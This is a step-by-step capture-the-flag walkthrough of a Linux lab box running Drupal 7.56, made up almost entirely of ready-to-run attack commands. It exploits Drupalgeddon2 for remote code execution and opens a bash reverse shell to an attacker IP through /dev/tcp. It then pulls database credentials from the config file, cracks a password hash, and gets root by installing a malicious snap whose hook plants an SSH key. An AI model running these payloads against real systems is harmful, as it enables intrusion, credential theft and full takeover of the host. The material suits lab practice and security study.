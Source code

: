## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Recon
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.233
nmap -p 22,80 -sCV -oA scans/nmap-tcpscripts 10.10.10.233
```

---

## 🏠 Web Enum (Drupal 7.56) [HTTP](HTTP.md)
```bash
curl http://10.10.10.233/robots.txt
curl http://10.10.10.233/CHANGELOG.txt | head
```

---

## ⚡ Exploitation - Drupalgeddon2 (RCE)
```bash
git clone https://github.com/dreadlocked/Drupalgeddon2.git
cd Drupalgeddon2
./drupalgeddon2.rb http://10.10.10.233
```

### 🤖 Webshell Reverse Shell
```bash
# Listener
nc -lnvp 443

# Exploit (via webshell)
curl -G --data-urlencode "c=bash -i >& /dev/tcp/10.10.14.7/443 0>&1" http://10.10.10.233/shell.php
```

---

## 🔍 Enumeration (as apache)
```bash
ls -l /home
cat /etc/passwd | grep bash
cat /var/www/html/sites/default/settings.php
```

### 📂 DB Access
```bash
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' drupal
select * from users;
```

---

## 🔐 Crack Hash
```bash
echo "$S$DgL2gj..." > drupal.hash
hashcat -m 7900 drupal.hash /usr/share/wordlists/rockyou.txt
```

---

## 🔒 SSH as brucetherealadmin
```bash
ssh brucetherealadmin@10.10.10.233
# password: booboo
```

---

## ⬆️ Privilege Escalation via snap
### ☑ Check sudo perms
```bash
sudo -l
```

### 🚀 Build Malicious Snap (on your own VM)
```bash
snapcraft init
mkdir -p snap/hooks
cat > snap/hooks/install << EOF
#!/bin/bash
mkdir -p /root/.ssh
echo "<your-public-key>" > /root/.ssh/authorized_keys
EOF
chmod +x snap/hooks/install

cat > snap/snapcraft.yaml << EOF
name: armageddon
version: '0.1'
summary: Exploit Snap
confinement: devmode
grade: devel
parts:
  dummy:
    plugin: nil
EOF

snapcraft
```

### 🛫 Transfer + Install on Target
```bash
# Host
sudo python3 -m http.server 80

# Target (as brucetherealadmin)
curl http://10.10.14.7/armageddon_0.1_amd64.snap -o shell.snap
sudo snap install shell.snap --devmode --dangerous
```

---

## ✅ Root Access (via SSH key installed)
```bash
ssh -i ~/.ssh/id_ed25519 root@10.10.10.233
cat /root/root.txt
```

---

## 📋 Notes & References
- Drupal RCE: [Drupalgeddon2](https://github.com/dreadlocked/Drupalgeddon2)
- Snap Exploitation: GTFOBins + Custom install hook
- DB Creds from: `/var/www/html/sites/default/settings.php`